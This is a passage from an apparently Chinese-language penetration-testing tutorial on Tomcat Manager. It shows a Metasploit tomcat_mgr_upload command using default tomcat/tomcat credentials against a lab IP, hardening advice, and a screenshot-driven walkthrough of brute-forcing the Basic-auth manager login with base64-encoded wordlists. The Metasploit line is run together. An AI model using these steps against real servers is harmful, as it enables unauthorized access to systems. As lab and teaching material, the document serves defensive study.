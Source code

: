 ```php
use exploit/multi/http/tomcat_mgr_upload set HttpUsername tomcatset HttpPassword tomcatset rhosts 192.168.175.191set rport 8080exploit
```

这里就直接略过了 自己去操作一下

这就成功进来了

![1619340998143](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-9fa00942148d76edfd1c4b0efba6f13da941f05f.png)

#### 修复建议

```php
1、在系统上以低权限运行 Tomcat应用程序。创建一个专门的 Tomcat服务用户，该用户只能拥有一组最小权限（例如不允许远程登录）2、增加对于本地和基于证书的身份验证，部署账户锁定机制（对于集中式认证，目录服务也要做相应配置）。在CATALINA_HOME/conf/web.x ml文件设置锁定机制和时间超时限制3、以及针对manager-gui/manager-status/manager-s cript等目录页面设置最小权限访问限制
```

### Tomcat manager App暴力破解

#### 漏洞复现

我们先抓后台的包

![1619341538485](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-79e9fb324b88a6dff1199c1ea39e9aa3bb774744.png)

然后放包 进行登录

![1619341565301](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-6ce67b6635658e43f5417c75e6fd3b8052f4c1ee.png)

这里注意这段回显

```php
Authorization: Basic dG9tY2F0OnRvbWNhdA==
```

![1619341609504](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-b50f44921d4825afb92b94160acc730d345409a1.png)

发现Tomcat的后台登录账号和密码

是以B ASE64加密的 账号:密码

然后我们重新去抓后台的包 进行爆破

![1619341768817](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-e4c32e2d9afb0dbab95c782bbc85103a7219bfa0.png)

![1619341811564](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-dad389c3376a74b9b67cf51d51d12510088a8b21.png)

添加密码本 和B ASE64 的编码规则

把这个自带的编码 对勾去掉

![1619342044653](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-b580596c3b7e59cbb43e620f5ed2f52b95a57dc0.png)

开始攻击 拿到账号和密码
